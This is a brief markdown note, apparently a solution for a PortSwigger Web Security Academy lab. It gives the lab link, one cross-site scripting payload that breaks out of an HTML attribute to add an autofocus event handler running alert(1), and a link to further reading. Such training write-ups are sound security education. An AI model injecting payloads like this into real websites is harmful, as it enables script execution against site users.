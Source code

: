 # Lab

https://portswigger.net/web-security/cross-site-scripting/contexts/lab-attribute-angle-brackets-html-encoded

## Payload

`" autofocus onfocus="alert(1)`

## Ressources

https://portswigger.net/support/exploiting-xss-injecting-into-tag-attributes